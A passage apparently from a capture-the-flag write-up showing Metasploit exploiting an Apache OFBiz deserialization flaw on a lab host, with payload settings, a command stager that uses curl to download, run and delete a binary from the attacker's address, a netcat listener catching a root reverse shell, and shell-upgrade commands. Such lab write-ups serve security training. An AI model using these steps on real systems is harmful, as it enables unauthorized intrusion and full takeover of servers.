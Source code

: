 ```
Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  7575             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper

```

```
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Executing automatic check (disable AutoCheck to override)
[!] The target is not exploitable. Target cannot deserialize arbitrary data. ForceExploit is enabled, proceeding with exploitation.
[*] Executing Linux Dropper for linux/x64/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:8090/nHgLyT5
[*] Local IP: http://10.0.2.15:8090/nHgLyT5
[*] Client 10.129.136.121 (curl/7.64.0) requested /nHgLyT5
[*] Sending payload to 10.129.136.121 (curl/7.64.0)
[+] Successfully executed command: curl -so /tmp/kRIYBHpT http://10.10.14.24:8090/nHgLyT5;chmod +x /tmp/kRIYBHpT;/tmp/kRIYBHpT;rm -f /tmp/kRIYBHpT
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.
```

After catching the reverse shell we upgrade it like we did before and fix the size again.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.121.
Ncat: Connection from 10.129.136.121:43488.
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("/bin/bash")'
root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01# export TERM=xterm
export TERM=xterm
root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01# ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01#
root@632e00e8dd75:/usr/src/apache-ofbiz-17.12.01# stty rows 55 cols 236
```
